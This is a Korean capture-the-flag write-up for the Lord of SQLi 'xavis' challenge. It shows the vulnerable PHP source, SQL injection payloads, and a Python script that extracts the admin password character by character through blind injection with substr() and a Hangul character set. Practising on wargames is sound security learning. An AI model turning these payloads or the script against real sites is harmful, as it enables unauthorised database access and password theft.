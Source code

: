 ```yaml
---
layout: post
title: ! "[LOS] xavis"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - LOS
  - write-up
---
```



### xavis 한글 조합 셋으로 풀기

`query : select id from prob_xavis where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`?pw=1' or length(pw)='1`와 같은 쿼리가 필터링 없이 잘 적용된다
이 쿼리로 알아낸 패스워드의 길이는 12이다.

알파벳,숫자 조합,substr로 패스워드를 한 글자씩 알아내려고 하면 Hello guest만 뜨고 admin의 경우는 알 수가 없다.

그래서 알아봤더니 패스워드가 한글이어서 그렇다!!
다른 분들은 Hex 값으로 알아낸 후 10진수로 바꿔주고 그 값을 한글로 바꿔주는 방식을 사용하셨는데,
답이 한글이라는 것을 알고있다는 전제 하에 한글 조합셋으로 문제를 푸는 코드를 짜봤다.
[한글 조합 파일](https://github.com/MitNy/Python-Web-Hacking/blob/master/LOS/hangul.txt)도 직접 만들었다.. 


```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/xavis.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""
f = open("hangul.txt",mode="rt", encoding="utf-8")
line = f.read()
n_split = line.split("\n")
hangul = n_split[0].split(" ")
for i in range(0,len(hangul)):
    alpha += hangul[i]

for i in range(1,20):
    parameter = "?pw=1%27%20or%20length(pw)=%27"+str(i)+"%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break

for j in range(1,length):
    for i in alpha:
        parameter = "?pw=1%27%20or%20substr(pw,"+str(j)+",1)=%27"+str(i)
        print(parameter)
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(j) + " -> " + str(i))
            result += str(i)
            break

    if j == 1 and result == "":
        print("password not found")
        exit(0)

    if j == length-1:
        result = result.lower()
        print("\npassword is "+result)
        print("\n")
```

진짜진짜 오래걸리니 Hex 값을 이용해 문제를 푸는 방식을 추천 드립니다

![](/assets/posts/los/xavis_result.png)

![](/assets/posts/los/xavis_clear.png)
